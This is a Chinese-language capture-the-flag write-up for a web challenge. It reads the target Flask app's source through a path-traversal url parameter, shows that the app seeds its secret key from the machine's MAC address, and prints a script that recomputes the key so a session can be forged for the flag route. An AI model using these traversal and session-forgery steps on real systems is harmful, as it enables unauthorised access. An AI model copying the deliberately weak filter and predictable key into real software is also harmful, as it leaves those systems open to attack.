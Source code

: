 # 华东南赛区
## Web4
`/read?url=../../../../../app/app.py`

读文件

```PYTHON
# encoding:utf-8 
import re, random, uuid, urllib 
from flask import Flask, session, request 
app = Flask(__name__) 
random.seed(uuid.getnode()) 
app.config['SECRET_KEY'] = str(random.random()*233) 
app.debug = True 
@app.route('/') 
def index(): 
	session['username'] = 'www-data' 
	return 'Hello World! [Read somethings](http://cb213263-1df5-4b41-a3c8-f92a7bbca3ba.node5.buuoj.cn:81/read?url=https://baidu.com)' 
@app.route('/read') 
def read(): try: 
	url = request.args.get('url') 
	m = re.findall('^file.*', url, re.IGNORECASE) 
	n = re.findall('flag', url, re.IGNORECASE) 
	
	if m or n: 
		return 'No Hack' 
	res = urllib.urlopen(url) 
	return res.read() 
	except Exception as ex: 
		print str(ex) 
		return 'no response' 
@app.route('/flag') 
def flag(): 
	if session and session['username'] == 'fuck': 
		return open('/flag.txt').read() 
	else: 
		return 'Access denied' 
if __name__=='__main__': 
	app.run( debug=True, host="0.0.0.0" )
```

```
uuidnode : b6:b9:c3:9f:68:8e
```


```PYTHON
# encoding:utf-8
import random
import flask
random.seed(0xb6b9c39f688e)
key = str(random.random()*233)
print(key)
```
代码取了mac地址作为随机数种子，解出结构

![](attachments/Pasted%20image%2020240412100043.png)

![](attachments/Pasted%20image%2020240412100534.png)